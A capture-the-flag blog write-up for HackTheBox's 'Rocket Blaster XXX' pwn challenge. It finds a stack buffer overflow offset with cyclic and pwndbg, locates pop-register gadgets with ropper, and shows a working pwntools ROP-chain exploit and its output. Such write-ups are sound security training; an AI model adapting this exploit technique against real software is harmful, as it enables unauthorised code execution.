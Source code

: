 ```yaml
---
layout: post
title: "pwn rocketblasterxxx"
date: 2024-03-14 17:18:49 -0700
categories: ctfs
description: The "Rocket Blaster XXX" challenge involves exploiting a buffer overflow vulnerability to load specific values into memory addresses, ultimately calling an uncalled function with predefined parameters.
parent: HackTheBox - Apocalypse '24
grand_parent: CTF Events
event: "hackthebox-apocalypse"
tags:
- "pwn"
- "buffer overflow"
- "exploitation"
- "reverse engineering"
- "memory manipulation"
---
```


## Rocket Blaster XXX - Pwn Challenge

The "Rocket Blaster XXX" challenge presents participants with a prompt featuring a cute dog and a gun, hinting at the need to load ammo into a specific spot. Upon analysis using Ghidra, an uncalled function requiring three parameters: "0xdeadbeef," "0xdeadbabe," and "0xdead1337" is identified. These parameters must be passed in a specific order, indicating a memory manipulation challenge.

### Exploiting the Vulnerability:
To exploit the challenge, participants delve into the function's code, locate its pointer, and ensure memory stability for remote execution. By leveraging a buffer overflow vulnerability discovered using the `cyclic` tool in Pwntools, participants prepare to overwrite memory addresses with desired values. 

#### Cyclic Generation
`cyclic 1000`

#### Buffer Overflow
```sh
0x0000000000401588 in main ()
LEGEND: STACK | HEAP | CODE | DATA | RWX | RODATA
──────────────────────────────────────────────────[ REGISTERS / show-flags off / show-compact-regs off ]───────────────────────────────────────────────────
 RAX  0x0
 RBX  0x0
*RCX  0x7ffff7d14887 (write+23) ◂— cmp rax, -01000h /* 'H=' */
*RDX  0x1
*RDI  0x7ffff7e1ca70 ◂— 0x0
*RSI  0x1
 R8   0x0
*R9   0x7fffffff
*R10  0x403ad8 ◂— '\nPrepare for trouble and make it double, or triple..\n\nYou need to place the ammo in the right place to load the Rocket Blaster XXX!\n\n>> '
*R11  0x246
*R12  0x7fffffffdc88 —▸ 0x7fffffffe002 ◂— '/home/tokugero/ctf/htb/rooms/event/apocalypse2024/pwn/rocketblasterxxx/challenge/rocket_blaster_xxx'
*R13  0x4014fa (main) ◂— endbr64 
*R14  0x404d78 (__do_global_dtors_aux_fini_array_entry) —▸ 0x401240 (__do_global_dtors_aux) ◂— endbr64 
*R15  0x7ffff7ffd040 (_rtld_global) —▸ 0x7ffff7ffe2e0 ◂— 0x0
*RBP  0x6161616161616165 ('eaaaaaaa')
*RSP  0x7fffffffdb78 ◂— 'faaaaaaagaaaaaaahaaaaaaaiaaaaaaajaaaaaaakaaaaaaalaaaaaaamaaaaa' #< LOOKING FOR FIRST 8 BYTES THAT ARE OVERFLOWED
*RIP  0x401588 (main+142) ◂— ret 
───────────────────────────────────────────────────────────[ DISASM / x86-64 / set emulate on ]────────────────────────────────────────────────────────────
 ► 0x401588 <main+142>    ret    <0x6161616161616166>










─────────────────────────────────────────────────────────────────────────[ STACK ]─────────────────────────────────────────────────────────────────────────
00:0000│ rsp 0x7fffffffdb78 ◂— 'faaaaaaagaaaaaaahaaaaaaaiaaaaaaajaaaaaaakaaaaaaalaaaaaaamaaaaa'
01:0008│     0x7fffffffdb80 ◂— 'gaaaaaaahaaaaaaaiaaaaaaajaaaaaaakaaaaaaalaaaaaaamaaaaa'
02:0010│     0x7fffffffdb88 ◂— 'haaaaaaaiaaaaaaajaaaaaaakaaaaaaalaaaaaaamaaaaa'
03:0018│     0x7fffffffdb90 ◂— 'iaaaaaaajaaaaaaakaaaaaaalaaaaaaamaaaaa'
04:0020│     0x7fffffffdb98 ◂— 'jaaaaaaakaaaaaaalaaaaaaamaaaaa'
05:0028│     0x7fffffffdba0 ◂— 'kaaaaaaalaaaaaaamaaaaa'
06:0030│     0x7fffffffdba8 ◂— 'laaaaaaamaaaaa'
07:0038│     0x7fffffffdbb0 ◂— 0x61616161616d /* 'maaaaa' */
───────────────────────────────────────────────────────────────────────[ BACKTRACE ]───────────────────────────────────────────────────────────────────────
 ► 0         0x401588 main+142
   1 0x6161616161616166
   2 0x6161616161616167
   3 0x6161616161616168
   4 0x6161616161616169
   5 0x616161616161616a
   6 0x616161616161616b
   7 0x616161616161616c
───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
```

#### Identifying the overflow location
```sh
pwndbg> cyclic -l faaaaaaa       #< -- FIRST 8 BYTES THAT ARE OVERFLOWED                                               
Finding cyclic pattern of 8 bytes: b'faaaaaaa' (hex: 0x6661616161616161)
Found at offset 40
```
#### Identifying the addresses needed for the function
This is needed to tell the RSP register where the next instruction is, to overwrite the next return code to where you want it to go (in this case, our FillAmmo function)
![alt text](../../../assets/images/ctf/events/hackthebox-apocolypse-24/2024-03-14-pwn-rocketblasterxxx.md/2024-03-14-pwn-rocketblasterxxx/image.png)
```c
void fill_ammo(long param_1,long param_2,long param_3)

{
  ssize_t sVar1;
  char local_d;
  int local_c;
  
  local_c = open("./flag.txt",0);
  if (local_c < 0) {
    perror("\nError opening flag.txt, please contact an Administrator.\n");
                    /* WARNING: Subroutine does not return */
    exit(1);
  }
  if (param_1 != 0xdeadbeef) { // < -- PARAMETER 1
    printf("%s[x] [-] [-]\n\n%sPlacement 1: %sInvalid!\n\nAborting..\n",&DAT_00402010,&DAT_00402008,
           &DAT_00402010);
                    /* WARNING: Subroutine does not return */
    exit(1);
  }
  if (param_2 != 0xdeadbabe) { // < -- PARAMETER 2
    printf(&DAT_004020c0,&DAT_004020b6,&DAT_00402010,&DAT_00402008,&DAT_00402010);
                    /* WARNING: Subroutine does not return */
    exit(2);
  }
  if (param_3 != 0xdead1337) { // < -- PARAMETER 3
    printf(&DAT_00402100,&DAT_004020b6,&DAT_00402010,&DAT_00402008,&DAT_00402010);
                    /* WARNING: Subroutine does not return */
    exit(3);
  }
  printf(&DAT_00402140,&DAT_004020b6);
  fflush(stdin);
  fflush(stdout);
  while( true ) {
    sVar1 = read(local_c,&local_d,1); // <-- reads in the flag
    if (sVar1 < 1) break;
    fputc((int)local_d,stdout); // <-- Put out that flag!
  }
  close(local_c);
  fflush(stdin);
  fflush(stdout);
  return;
}
```
Address where the function is located:
![alt text](../../../assets/images/ctf/events/hackthebox-apocolypse-24/2024-03-14-pwn-rocketblasterxxx.md/2024-03-14-pwn-rocketblasterxxx/image-2.png)

> Note here that the variables are being listed as stored in RDI, RSI, and RDX; this means we need to write our parameters to these registers before we call the actual function.

#### Finding where to write the registers
The below query is searching explicitly for what I'm looking for for the purposes of the documentation, but it might be helfpul to be less prescriptive in the grep to have a wider view of potential register-filling options.
```sh
[10:59:07] tokugero :: pangolin  ➜  pwn/rocketblasterxxx/challenge » ropper -f target/rocket_blaster_xxx | grep -e rdi -e rdx -e rsi                   1 ↵
<snip>
0x000000000040159f: pop rdi; ret; 
0x000000000040159b: pop rdx; ret; 
<snip>
0x000000000040159d: pop rsi; ret; 
```

### Crafting the Payload:
Understanding the process enables participants to construct a payload that populates memory with the required parameters and directs execution flow to the targeted function. Leveraging the identified Rock chains, participants fill memory addresses with parameter values and orchestrate the call to the uncalled function.

#### Pwntools
```python
io = start()

fill_ammo_ptr = 0x4012f5
overflow_offset = b'A' * 40 # Found with cyclic pattern in pwndbg

# These need to be set in respective parameters per fill_ammo function
param1_dbeef = 0xdeadbeef
param2_dbabe = 0xdeadbabe
param3_dl117 = 0xdead1337
pop_rdi = 0x40159f
pop_rsi = 0x40159d
pop_rdx = 0x40159b

payload = b''
payload += overflow_offset
payload += p64(0x40101a)
payload += p64(pop_rdx)
payload += p64(param3_dl117)
payload += p64(pop_rsi)
payload += p64(param2_dbabe)
payload += p64(pop_rdi)
payload += p64(param1_dbeef)
payload += p64(fill_ammo_ptr)

print(len(payload), payload)
io.recvuntil(b'>> ')
io.sendline(payload)

io.interactive()
```

And the juicy bits:
```sh
[+] Starting local process './rocket_blaster_xxx': pid 538144
104 b'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\x1a\x10@\x00\x00\x00\x00\x00\x9b\x15@\x00\x00\x00\x00\x007\x13\xad\xde\x00\x00\x00\x00\x9d\x15@\x00\x00\x00\x00\x00\xbe\xba\xad\xde\x00\x00\x00\x00\x9f\x15@\x00\x00\x00\x00\x00\xef\xbe\xad\xde\x00\x00\x00\x00\xf5\x12@\x00\x00\x00\x00\x00'
[*] Switching to interactive mode

Preparing beta testing..
[✓] [✓] [✓]

All Placements are set correctly!

Ready to launch at: HTB{f4k3_fl4g_4_t35t1ng}
```

### Conclusion:
The "Rocket Blaster XXX" challenge highlights the significance of identifying and exploiting buffer overflow vulnerabilities for memory manipulation. By understanding the application's behavior and leveraging appropriate tools, participants can craft payloads to manipulate memory addresses effectively. This experience underscores the importance of meticulous analysis and exploitation techniques in pwn challenges.
